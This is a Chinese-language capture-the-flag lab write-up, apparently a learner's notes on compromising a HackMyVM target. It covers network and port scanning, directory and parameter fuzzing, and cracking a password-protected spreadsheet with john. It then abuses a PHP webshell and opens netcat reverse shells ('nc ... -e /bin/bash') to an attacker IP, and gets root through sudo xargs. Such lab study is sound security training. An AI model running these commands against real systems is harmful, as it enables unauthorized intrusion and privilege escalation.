



## 1、靶场搭建

PS：一楼使用的网络需要额外认证，不能采用桥接模式。

## 2、网络信息收集

```bash
sudo arp-scan -l -I eth0
#将扫描到的所有网络信息输出到net-info.txt中，并提取出所有活动设备的ip到ip-info.txt
sudo arp-scan -l > net-info.txt
awk '/^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+/ {print $1}' net-info.txt > ip-info.txt
```



## 3、端口信息收集

```bash
#理论上不知道在哪个主机有开放端口的情况下应该将所有的主机都扫描，但是此处其实已知是靶机（192.168.6.166）有开放端口，因此只扫描靶机即可
#sudo nmap -sV -p- -Pn -iL ip-info.txt
sudo nmap -sV -p- -Pn 192.168.6.166
###
#-s代表scan,V代表version，对主机版本信息扫描，还有S为SYN扫描，T为TCP连接扫描，U为UDP连接扫描。
#-p-为扫描1-65535所有端口，默认情况为只扫描到1000端口
#-Pn，即ping no，nmap在端口扫描的时候会先发icmp，为了避免防火墙等设备阻止icmp请求导致nmap认为主机不在线（而且arp-scan已知该主机在线）。
###


###
##为什么使用arp-scan发现主机而不用imcp发现？
#arp在2.5层，因此无视基于ip过滤的防火墙，但是icmp是在3.5层。
###
```


## 4、路径扫描

```bash
#开放了端口80，http，可以通过暴力破解找到有哪些文件，从而分析出哪些文件可以被访问，哪些不允许被访问，根据收集的信息决定进一步渗透的方法。
sudo apt instasll gobuster
gobuster dir -u http://192.168.6.166/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,zip,bak,jpg,txt,html

###
#403表示有文件但无访问权限，301代表重定向，200代表成功访问。
#因此接下来看看能从200和301状态码的网页中获取到什么有用的信息
###
```



```bash
###
#首先访问index.html，为一个握拳且无有效信息的页面(除非它是个包含秘密数据的特殊图像)
#其次访问imgs和scout，imgs下即为index.html中的握拳图片，没啥用。scout中为一个提示，表明有重要文件存在于/scout/******/docs/下。这就可以想到采用模糊测试工具暴力破解。
###
```


```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirb/big.txt -u 'http://192.168.6.166/scout/FUZZ/docs/'  --hl 3
###
#--hc==404，hc即hide code，忽略404相应。FUZZ用户模糊测试，类似通配符。
###

###
#疑问：为什么要设置--hl 3，不看响应体长度为3的响应？？？有什么意义在这里？


一般404 都是这种响应 看了没啥意义。
404 Not Found
The requested URL was not found on this server.
###
```


```bash
#破解到了重要文件所在的路径，访问/scout/j2/docs/，发现存在两个有效文件（其它z***文件是什么用处，模拟存在好多文件？）。打开pass.txt发现一个用户名+密码，打开shellfile.ods发现需要输入密码，因此将其down下来尝试破解（有一个核心问题，如果不是教程，我怎么知道这个.ods文件的加密模式是可以被破解的？这个问题与文尾疑问相对应）。
wget http://192.168.6.166/scout/j2/docs/shellfile.ods
libreoffice2john shellfile.odf > key_hash
john -w=/usr/share/wordlists/rockyou.txt key_hash

###
#疑问：我并没有查到相关官方文档说.ods中默认采用PBKDF2进行密钥派生得到密钥并利用AES对称加密，然后用SHA-1散列派生的密钥，是因为我没有查到相关文档吗？如果.ods采用未知的加密模式怎么办？还是说libreoffice2john工具能自动识别.ods文件的加密模式？

他这个工具libreoffice2john就是提取加密文档的 hash，来进行后续工具密码破解的。
###
```





```bash
#破解得到.ods的密码为john11，输入后得到了一个新的文件路径，大概里thejabasshell.php是下一步的突破点。
#访问发现是个空白页面，然后爆破参数。
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.6.166/thejabasshell.php?FUZZ=whoami' -fw 1

###
#疑问1：这里作者为什么会想到爆破html参数名？这是原因还是经验？空白html就要想到爆破参数名？


php一般都是？后面传参 
#疑问2：我理解这里FUZZ=whoami是根据返回的状态码确定正确的参数名，但为什么要设定参数值为whoami，如果靶机上的server将whoami这种单词进行了黑名单过滤，岂不是也会返回错误的状态码？没法控制单一变量，那岂不是试到了正确的参数名也可能会被认为是错误的参数名吗。


whoami 是常用查看当前用户名，一般情况不会过滤这个命令 没啥危害，如果没用也会试其他的。
###
```


```bash
#爆破到了一个正确的参数名a，访问它得到了一个提示说突破点在参数b上（而且可以看出来a的参数值暂时并没有作为命令在靶机上执行）
#尝试给参数b一个参数值（b=ls)，发现还是提示突破点在参数b上。这里感觉就像是a是输入了一个用户名，需要b的参数值作为密码匹配成功才能看到某些信息。因此，继续爆破b的参数值。
ffuf -w /usr/share/wordlists/rockyou.txt -u 'http://192.168.6.166/thejabasshell.php?a=whoami&b=FUZZ' -fw 5
```


```bash
#得到b的参数值为pass时返回了200状态码，尝试输入b=pass，返回了www-data。再试一下别的命令a=ls,发现也被执行了，基本证明a的值会在b的值为pass时作为命令执行
```


## 5、获取shell

```bash
#现有条件为命令可执行，且靶机仅开放了80端口，没有开放ssh的22端口，因此无法正向shell，只能反弹shell。先kali使用nc监听5555端口，然后给a的值设置为nc 192.168.6.149 5555 -e /bin/bash然后访问,拿到shell。
nc -lvp 5555
script /dev/null -c bash
```

![image-20240620160820481]


```bash
#查看定时文件，发现没有
crontab -l
#查看suid命令和文件
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
#查看是否有其它未开放但监听的端口，有一个8000端口
ss -altp
###
#疑问1：查看定时文件、查找可利用suid命令和文件、查看监听但未开放端口，这是在任何场景下拿到普通权限后提权的思路吗，除此之外还有哪些思路？
一般都会先查看这些，搜集信息，为提权做准备。

#疑问2：为什么作者说没有可用suid命令和文件？这不是有吗？是无法被利用进行渗透吗？
可以看一下这些命令的作用，虽然是root权限，但使用的时候有些需要密码。

###
```


```bash
#本地命令行访问这个端口-用wget down下来html页面（我看另一个作者还用curl去尝试down，收集一下用于down的命令），必须要进入tmp目录下wget
wget http://lcoalhost:8000
cat index.html
###
#疑问1：为什么在tmp下才能wget成功？
html 权限不够。没有写权限
```


```bash
#得到一个Brainfuck编码，解码结果为all HackMyVM hackers!!且提示了一个文件priv.php，这个文件应该就是接下来的突破点。继续把他wget down下来查看内容
wget http://127.0.0.1:8000/priv.php
cat priv.php
```


```bash
#$json接收传入的原始post数据，然后解析json给$data，json会将command参数的值传递给system()函数，system()函数执行这个值（命令），因此得到可以任意命令执行的利用链。
#在kali上监听6666端口，用wget以post形式提交表单
wget --post-data='{"command":"nc 192.168.6.149 6666 -e /bin/bash"}' http://127.0.0.1:8000/priv.php

#获取到drito用户的权限
```


## 6、获取root权限

```bash
#sudo -l发现xargs有root权限。
#https://gtfobins.github.io/gtfobins/xargs/#sudo中为利用xargs提权的方法（break out from restricted environments）
#仔细学习研究为什么能提权。

sudo xargs -a /dev/null sh
#获取root权限
```


```bash
###
#请教：请问有没有一些常用的好用的字典？或者推荐某个网站上有？或者推荐某个git上有？
https://github.com/shadowabi/S-BlastingDictionary
https://github.com/wwl012345/PasswordDic
github上比较多，这就两个例子，基本上还是靠自己使用的时候搜集。


#终极疑问：/scout/j2/docs下的pass.txt文件中的内容user:password有什么用？全文没有发现它被使用到。
这文件没啥用。


###
```

```bash
#PS：
#爆破文件目录和文件名
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/share/wordlists/dirb/big.txt
/usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
#爆破密码
/usr/share/wordlists/rockyou.txt
```

